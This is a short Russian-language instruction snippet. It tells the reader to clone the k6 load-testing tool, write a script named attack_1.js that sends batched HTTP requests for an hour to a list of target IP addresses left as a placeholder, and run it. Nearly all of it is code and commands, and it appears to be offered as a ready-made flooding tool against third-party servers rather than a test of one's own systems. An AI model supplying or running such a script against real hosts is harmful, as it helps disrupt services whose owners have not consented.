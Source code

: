 ```
git clone https://github.com/grafana/k6.git
cd k6
```

создайте новый файл ./samples/attack_1.js

вставьте этот листинг

```
import { check } from 'k6';
import http from 'k6/http';

export let options = {
  //noConnextionRefuse: false,
  stages: [
      { duration: "1h", target: 2 },
  ]
}

export default function() {
  http.batch([
"<IP ADDRESSES GO HERE>",
  ]);
};


```

запустите

```
k6 run ./samples/attack_1.js
```
